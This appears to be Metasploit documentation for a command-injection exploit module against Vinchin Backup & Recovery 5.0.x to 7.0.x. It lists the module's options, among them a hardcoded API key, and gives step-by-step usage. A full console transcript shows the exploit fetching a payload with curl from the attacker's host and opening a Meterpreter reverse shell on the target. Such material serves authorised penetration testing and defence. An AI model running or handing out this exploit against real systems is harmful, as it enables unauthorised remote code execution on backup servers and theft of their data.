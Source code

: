 ## Vulnerable Application

This module exploits a vulnerability in Vinchin Backup & Recovery versions 5.0.x, 6.0.x, 6.7.x, and 7.0.x. To prepare the environment:

1. Download Vinchin Backup & Recovery version 5.0.x, 6.0.x, 6.7.x, or 7.0.x.
2. Install the software on a Linux-based server using the downloaded ISO.
3. During the installation, ensure that the network interface is active and configured.
4. After installation, verify that the Vinchin Backup & Recovery service is operational and accessible over the network.

*Note: The module is designed to work with the specified versions. Functionality with other versions has not been confirmed.x

## Verification Steps

1. Install a vulnerable version of Vinchin Backup & Recovery (versions 5.0.x, 6.0.x, 6.7.x, or 7.0.x).
2. Start msfconsole in your Metasploit environment.
3. Do: `use exploit/linux/http/vinchin_backup_recovery_cmd_inject`
4. Set the RHOSTS to the target IP address or hostname.
5. Do: `run`
6. If the target is vulnerable, the exploit will execute the specified payload or command.

## Options

Here are the specific options for the `exploit/linux/http/vinchin_backup_recovery_cmd_inject` module:

#### RHOSTS

- **Description**: Specifies the target address or range of addresses.
- **Default Value**: None. It must be set by the user.

#### RPORT

- **Description**: The port on which the Vinchin Backup & Recovery service is running.
- **Default Value**: 443 (this is not configurable in the default Vinchin Backup & Recovery setup).

#### SSL

- **Description**: Specifies whether to use SSL for the connection.
- **Default Value**: True, as Vinchin typically runs over HTTPS.

#### TARGETURI

- **Description**: The base path to the Vinchin Backup & Recovery application.
- **Default Value**: `/`

#### APIKEY

- **Description**: The hardcoded API key required to authenticate to the API.
- **Default Value**: `6e24cc40bfdb6963c04a4f1983c8af71`

## Scenarios

### Successful Exploitation against Vinchin Backup & Recovery 7.0.1.26282

This scenario demonstrates exploiting the Vinchin Backup & Recovery version 7.0.1.26282 on a Linux server.

**Environment**:
- Vinchin Backup & Recovery 7.0.1.26282
- Linux Server
- Metasploit Framework

**Steps**:

1. Start `msfconsole`.
2. Load the exploit module:
```
use exploit/linux/http/vinchin_backup_recovery_cmd_inject
```
4. Set the required options:
```
set RHOSTS [target IP]
set APIKEY [API Key]
```
5. Optionally set a payload and configure LHOST and LPORT.
6. Execute the exploit:
```
exploit
```

**Expected Output**:

```
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > options

Module options (exploit/linux/http/vinchin_backup_recovery_cmd_inject):

   Name       Current Setting               Required  Description
   ----       ---------------               --------  -----------
   APIKEY     6e24cc40bfdb6963c04a4f1983c8  yes       The hardcoded API key
              af71
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:
                                                      port][...]
   RHOSTS                                   yes       The target host(s), see https://docs.metasploit.co
                                                      m/docs/using-metasploit/basics/using-metasploit.ht
                                                      ml
   RPORT      443                           yes       The target port (TCP)
   SSL        true                          no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                  no        Path to a custom SSL certificate (default is rando
                                                      mly generated)
   TARGETURI  /                             yes       The base path to the Vinchin Backup & Recovery app
                                                      lication
   URIPATH                                  no        The URI to use for this exploit (default is random
                                                      )
   VHOST                                    no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                        address on the local machine or 0.0.0.0 to listen on all address
                                       es.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting            Required  Description
   ----                ---------------            --------  -----------
   FETCH_COMMAND       CURL                       yes       Command to fetch payload (Accepted: CURL, FT
                                                            P, TFTP, TNFTP, WGET)
   FETCH_DELETE        false                      yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JSSwiKfcOw                 no        Name to use on remote system when storing pa
                                                            yload; cannot contain spaces.
   FETCH_SRVHOST                                  no        Local IP to use for serving payload
   FETCH_SRVPORT       8080                       yes       Local port to use for serving payload
   FETCH_URIPATH                                  no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /usr/share/nginx/vinchin/  yes       Remote writable dir to store payload; cannot
                       tmp                                   contain spaces.
   LHOST               192.168.1.5                yes       The listen address (an interface may be spec
                                                            ified)
   LPORT               4444                       yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > set rhosts 192.168.1.3
rhosts => 192.168.1.3
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > check

[*] Detected Vinchin version: 7.0.1.26282
[+] 192.168.1.3:443 - The target is vulnerable.
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Vinchin version: 7.0.1.26282
[+] The target is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.3:58960) at 2023-11-21 02:00:57 +0100

meterpreter > sysinfo 
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
